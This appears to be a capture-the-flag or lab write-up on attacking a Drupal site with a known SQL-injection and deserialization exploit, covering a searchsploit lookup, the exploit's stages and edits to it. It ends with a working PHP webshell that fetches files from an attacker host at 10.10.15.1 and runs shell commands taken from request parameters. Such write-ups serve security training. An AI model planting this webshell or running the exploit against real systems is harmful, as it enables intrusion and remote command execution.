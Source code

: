 View exploit:

    searchpsloit -x php/webapps/41564.php

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557213962287_image.png)

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557214024561_image.png)

*This is the blog post exploit*

Various ways to clone a copy of the exploit, personally I like the `-m` which mirrors the exploit to the working directory but IppSec in this situation uses `-p` to copy to clip board, paste into working directory and renames the files to drupal.php:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557214226922_image.png)

## dissembling the exploit

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557214294639_image.png)

*it’s a PHP script which would be considered odd but since this is using a serialization() exploit it makes sense.*

Uses 3 section:

1. Use the SQL INjection to get the contents of the cache for the current endpoint along with the admin credentials and hash
2. After the cache to allow us to write a file and o so
3. Restore the cache

## modify exploit
change the url:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557214522538_image.png)

change filename, which was originally a linux php which might have issues with the windows box:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557214537892_image.png)

## create custom php webshell within exploit
adding a custom webshell as a new variable:

    $phpCode = <<<'EOD'
    <?php
      if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.15.1:8000/" . $_REQUEST['fupload]));
      };
      if (isset($_REQUEST['fexec'])) {
        echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
      };
    ?>
    EOD;
    